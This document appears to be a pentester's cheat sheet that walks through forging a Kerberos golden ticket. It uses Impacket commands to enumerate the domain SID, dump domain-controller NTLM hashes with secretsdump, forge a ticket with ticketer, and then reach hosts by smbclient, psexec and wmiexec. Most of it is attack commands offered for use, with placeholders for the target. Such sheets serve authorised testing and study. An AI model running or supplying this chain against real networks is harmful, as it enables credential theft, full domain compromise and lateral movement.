 # Unix Shell

## 01 - Create Golden Ticket

Get the Domain SID.

```
$ lookupsid.py <domain>/<username>:<password>@<IP>
```

Then dump the hashes.

```
$ secretsdump.py -just-dc-ntlm <domain>/<username>:<password>@<IP>
```

Convert it to golden ticket. Exclude the RID from the last 3 digits.

```
$ ticketer.py -nthashes <nt_hash> -domain-sid <sid_user> -domain <domain> <username_to_impersonate>
```

## 02 - Samba Suite Utils

TODO: refer to the links using `ktutil`

```
$ smbclient -U "<username>" -N --use-krb5-ccachce=/path/to/ticket.ccache -L //<IP>
```

## 03 - Impacket

Specify the pass of the golden ticket.

```
$ export KRB5CCNAME=/path/to/file.ccache
```

### 3.1 - SMBClient

```
$ smbclient.py -k -no-pass <domain>/<username>@<IP>
```

### 3.2 - PsExec

```
$ psexec.py -k -no-pass <domain>/<username>@<IP>
```

### 3.3 - WMIExec

```
$ wmiexec.py -k -no-pass <domain>/<username>@<IP>
```

---
## References

### Mubix

- [Malicious.link: Pass The Hash with Kerberos](https://room362.com/posts/2018/pass-the-hash-with-kerberos/)

### Hackndo

- [Hackndo: Kerberos Sliver Golden Tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)

### Hacking Articles

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)